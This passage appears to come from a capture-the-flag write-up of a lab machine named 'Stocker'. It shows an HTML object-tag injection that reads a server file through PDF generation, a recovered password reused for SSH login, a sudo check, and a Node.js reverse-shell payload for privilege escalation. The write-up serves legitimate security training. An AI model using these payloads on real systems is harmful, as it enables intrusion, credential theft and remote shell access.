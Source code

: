 we can see generated PDF at `/api/po/642550c92e188ca84f0a3f46`.

<img width="498" alt="image" src="https://user-images.githubusercontent.com/79740895/228787287-27642032-742a-400f-9b1d-e7814137d623.png">

We can modify our payload to increase the view area:

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<object data='file:///var/www/dev/index.js' height=800 width=800>","description":"It's a red cup.","image":"Yo","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
result:

<img width="324" alt="image" src="https://user-images.githubusercontent.com/79740895/228790867-552de9df-6da5-4534-a6da-f457149e974b.png">

we found Password: `IHeardPassphrasesArePrettySecure`

previously we show one comment from Angoose Garden, Head of IT at Stockers Ltd.

we can try this username:`Angoose` and password on ssh.


<img width="228" alt="image" src="https://user-images.githubusercontent.com/79740895/228792401-92e175e9-5868-4f29-9276-513a2303d220.png">

### Escalating Privileges

chech root Permission using `sudo -l`

```shell
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Sorry, try again.
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

we can escalate our privilege with node

Payload:
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(8888, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
